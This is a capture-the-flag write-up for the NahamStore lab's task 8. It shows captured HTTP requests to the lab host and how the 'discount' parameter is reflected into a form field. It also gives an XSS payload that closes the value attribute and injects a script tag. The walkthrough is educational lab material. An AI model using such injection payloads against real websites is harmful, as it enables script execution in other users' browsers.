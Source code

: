 <h1 align=center>Cross site scripting attack/XSS</h1>

# TASK 8
## What other hidden parameter can be found on the shop which can introduce an XSS vulnerability

#### to be honest i spend 1+ hour for this question. don't try manually. use burp suite instead of it.

first click on the products from "sticker pack" and "hoodie", then type discount coupon code and hit "add to basket" button, remember use burp to capture this request

## Request

```POST /product?id=2 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1

add_to_basket=1&discount=12


### notice on the http request start line and body

```id=2
add_to_basket=1
discount=12```


### then i'm trying to execute xss using those parameter. but not interesting. so i changed the request method.

``` GET /product?id=2&add_to_basket=1&discount=12 HTTP/1.1
Host: nahamstore.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: http://nahamstore.thm
Connection: close
Referer: http://nahamstore.thm/product?id=2
Cookie: session=9604154dd85ab285184436dd6ebc37cd
Upgrade-Insecure-Requests: 1 ```

and it also refleted back on the page 

                      ``` <form method="post">
                            <input type="hidden" name="add_to_basket" value="1">
                            <div style="margin-bottom:10px"><input placeholder="Discount Code" class="form-control" name="discount" value="12"></div>
                            <input type="submit" class="btn btn-success" value="Add To basket">
                            <input type="button" class="btn btn-info checkstock" data-product-id="1" value="Check Stock">
                        </form>```

notice on the "name="discount" value="12">"

if i inject like this => "<script>alert("hacked by nazu")";// inside discount parameter guess what will happened?

first it will close the value parameter using double quote(") then the code will execute.

look 

value="12"
value=""<script>alert("hacked by nazu")";" | boom! 

```answer = discount```
